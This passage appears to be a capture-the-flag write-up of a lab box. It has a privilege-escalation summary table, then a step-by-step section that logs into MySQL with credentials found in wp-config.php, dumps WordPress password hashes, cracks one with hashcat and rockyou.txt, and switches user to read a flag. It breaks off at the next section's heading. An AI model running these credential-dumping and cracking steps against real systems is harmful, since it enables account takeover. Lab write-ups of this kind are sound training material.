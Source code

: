| From User | To User | Method Employed                               | Key Finding                              |
| --------- | ------- | --------------------------------------------- | ---------------------------------------- |
| www-data  | diego   | Database Credential Abuse & Password Cracking | Cracked phpass hash from wp\_users table |
| diego     | think   | Insecure File Permissions                     | Readable SSH private key in /home/think  |
| think     | xavi    | Insecure Backup & Archive Password Cracking   | Credentials in a wp-config.php backup    |
| xavi      | root    | Sudo Misconfiguration                         | Unrestricted sudo privileges             |

---

### A. Path to diego: Cracking WordPress Hashes

**Objective**
The goal was to leverage the previously discovered database credentials to extract and crack user password hashes.

**Database Enumeration and Hash Dumping**
Using the credentials from `wp-config.php`, a connection was made to the local MySQL server:

```bash
mysql -u wpuser -p'kbLSF2Vop#lw3rjDZ629*Z%G'
```

Once connected, the `wp_users` table within the `wordpress` database was queried:

```sql
USE wordpress;
SELECT user_login, user_pass FROM wp_users;
```

**Hash Identification and Cracking**
The dumped hashes began with the prefix `$P$`, characteristic of the phpass hashing algorithm used by older WordPress versions. The `hashid` tool confirmed this identification. The hashes were saved and cracked using `hashcat` mode 400 (phpass) against the `rockyou.txt` wordlist:

```bash
hashcat -m 400 hashes /usr/share/wordlists/rockyou.txt
```

The tool successfully cracked the hash for the user `diego`, revealing the password: `sandiegocalifornia`.

**Pivoting and Capturing the User Flag**

```bash
su diego
Password: sandiegocalifornia
cd ~
cat user.txt
# 45edaec653ff9ee06236b7ce72b86963
```

---

### B. Path to think: Leveraging an Exposed SSH Key
